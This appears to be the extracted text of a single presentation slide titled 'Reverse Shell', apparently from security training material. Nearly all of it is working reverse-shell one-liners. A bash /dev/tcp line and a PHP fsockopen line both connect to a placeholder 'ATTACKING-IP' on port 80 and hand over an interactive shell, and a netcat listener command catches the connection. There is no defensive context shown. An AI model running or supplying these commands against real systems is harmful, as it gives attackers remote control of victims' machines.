

# Reverse Shell
exec /bin/bash 0&0 2>&0
0<&196;exec 196<>/dev/tcp/ATTACKING-IP/80; sh <&196 >&196 2>&196
php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");’

nc -lnvp 80